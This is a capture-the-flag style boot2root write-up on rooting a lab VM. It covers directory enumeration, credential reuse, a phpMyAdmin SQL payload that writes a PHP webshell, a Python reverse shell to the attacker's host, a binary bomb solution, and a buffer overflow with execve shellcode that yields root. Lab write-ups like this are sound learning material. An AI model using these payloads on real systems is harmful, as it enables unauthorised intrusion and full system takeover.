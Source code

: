 # boot2root writeup1 (normal way)

## Getting code execution
### my little forum
I didnt had nmap installed at first so i went on checking common ports:
- 21 ftp
- 22 ssh
- 80 http
- 443 https

Could not login as anonymous to the ftp server.  
http returned a page with no info what so ever so i fired up gobuster and runned it:
```
$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://192.168.56.102
/forum                (Status: 403) [Size: 287]
/fonts                (Status: 301) [Size: 316] [--> http://192.168.56.102/fonts/]
/server-status        (Status: 403) [Size: 295]
$ gobuster dir -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u https://192.168.56.102
/forum                (Status: 301) [Size: 318] [--> https://192.168.56.102/forum/]
/webmail              (Status: 301) [Size: 320] [--> https://192.168.56.102/webmail/]
/phpmyadmin           (Status: 301) [Size: 323] [--> https://192.168.56.102/phpmyadmin/]
/server-status        (Status: 403) [Size: 296]
```

The /forum is a `my little forum` forum, we get many dummy post and what seems like a snippet of the machine syslog.  
As usual we get many unsucessful ssh login attempt etc... but one user managed to log in: lmezard (and admin).  
Right above one of lmezard login we see an unsucessfull login attempt as user `!q\]Ej?*5K5cy*AJ` since the post originated from lmezard and is title `Probleme login ?` we deduced it's related to this unsucessfull login attempt.  
My guess is that the user inputed his password instead of his login and well it is the case since we are able to login with `lmezard/!q\]Ej?*5K5cy*AJ`.  
Going into the `my little forum` lmezard account we get an email wich we can use to login to the webmail server (same password) `laurie@borntosec.net/!q\]Ej?*5K5cy*AJ`  

### webmail
On the mail server we get credentials wich we can use to login into the phpmyadmin website: `root/Fg-'kKXBj87E:aJ$`  

### phpmyadmin
With phpmyadmin we can do an sql request to create a php file to get a webshell (into a reverse shell (didnt manage to get the reverse shell directly)).  
Go to phpmyadmin, select `forum_db` database, click on sql, paste the following payload and click `Go`.  
```
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/forum/templates_c/webshell.php'
```

phpmyadmin directory seems readonly so i choose this directory that clearly seems writeable by it's content
Then we can access `https://192.168.56.102/forum/templates_c/webshell.php` and input command.  

### webshell into reverse_shell
A quick `python -c "print 'A'" confirmed me that python was installed and so we could do a reverse shell by pasting the following command and listening on port 8000 on our end:
```
$ export RHOST="192.168.56.1";export RPORT=8000;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
```
$ nc -lnvp 8000
```

As expected we are www-data and have now a shell.  
// The command execution part is now finished (there is a file in /home directory (/home/LOOKATME/password) wich contains lmezard creds (not working in ssh tho)

## Privilege escalation

### Getting laurie (archive with c source code / fun)

After upgrade to lmezard account on the server we are presented with a tar archive in the home directory wich contains many pcap file with very few bytes but one of the file contains 30+kbyte, we will use wireshark to analyze it.  
Seems like it's it's actually one big C files which is splitted across many files, trying to compile the huge file, we notice 7 missing getmeX function.  
There are all splitted across the directory we can find them by searching for getmeX, catting the file, search for file + 1 and get the return statement, put it inside the big file, do this 7 times (or with a script) compile and run:  
```
$ ./a.out 
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit%
$ echo -n Iheartpwnage | sha256sum
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

We have now a new combination of user / password: `laurie/330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

### Getting thor (enigme / bomb)

Binary called bomb, let's decompile it (using gdb snif).  
1. Public speaking is very easy.
strcmp between the above sentence and our input
2. 1 2 6 24 120 720
read six numbers, check if the first one is 1, then proceed to check if:
aiStack32[iVar1 + 1] != (iVar1 + 1) * aiStack32[iVar1])
aiStack32 is all my numbers, iVar1 is the index so to get n+1 we have to multiply index + 1 by n (iVar1 starts at 1)
3. 2 b 755
Read an int, a char and then an int, search for the int, then check if the char and the second int match
4. 9
Await an int and get the index of the number in the fibonacci sequence, check if it's 55 (9 in the fibinnacci sequence)
5. o05km1
Have an array of 16 char, create a array with index taken from each char of your input modulo 16, then compare the string with `giants`
6. 4 2 6 3 1 5
Do some strange math but await 6 numbers between 1 and 6 (included) each different from other
Just bruteforce the solution, i don't want to reverse.  

Well this solution does work to defuse the bomb but since it's shitty made it's not the ONLY solution, especially for the 3rd, 5th so i borrowed the correct flags from friends . (and the last level is broken).  
1. Public speaking is very easy.
2. 1 2 6 24 120 720
3. 1 b 214
4. 9
5. opekmq
6. 4 2 6 1 3 5

Which gives us `Publicspeakingisveryeasy.126241207201b2149opekmq426135`
We now have thor ssh creds: `thor/Publicspeakingisveryeasy.126241207201b2149opekmq426135`

### Getting zaz (tkinter / turtle)

I knew about tkinter and turtle so it wasnt that hard, but the fact that we had to md5 it gaved me trouble...   
In the end, we just had to convert the instruction to turtle instruction and we are done (see python script in /scripts)
```
echo -n 'SLASH' | md5sum
646da671ca01bb5d84dbb5fb2238dc8e
```

`zaz/646da671ca01bb5d84dbb5fb2238dc8e`

## Getting root (buffer overflow / exploit_me)

Too bored to reverse it completly but it's strcpying argv[1] into an array in main, thus we can overwrite main return address and make it jump to our shellcode, we place a nopsled just to be sure.  
```
$ /home/zaz/exploit_me $(python -c "print '\x90' * 112 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\xbf\xff\xf8\x98'[::-1]")
$ id
root
```
